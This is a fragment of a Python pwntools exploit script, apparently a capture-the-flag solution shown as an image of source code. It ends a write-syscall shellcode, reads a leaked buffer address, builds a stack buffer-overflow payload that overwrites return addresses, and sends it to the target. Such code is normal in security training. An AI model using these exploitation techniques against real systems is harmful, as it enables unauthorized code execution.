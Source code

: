 ```python
    "mov rax, 0x1      # rax = 1 ; syscall_write\n"
    "syscall           # write(fd, buf, 0x30)\n")
print(shellcode)

p.recvuntil(b'Buffer: ')
buf = int(p.recvline()[:-1], 16)
print(hex(buf))
sz = (0x7f36b0efa6c0 - 0x7f36b0ef9e40 + 0x30)
print(hex(buf + sz))

#
# gdb.attach(p, 'b *{}'.format(0x000000000040140b))
p.sendlineafter(": ", str(sz).encode())
payload = shellcode.ljust(0x78, b'\x00') + p64(buf + sz - 0x30) + b'a' * 8 + p64(buf)
payload += p64(buf + sz - 0x30) * ((sz - len(payload)) // 8)
p.sendafter(b'> ', payload)
p.interactive()
```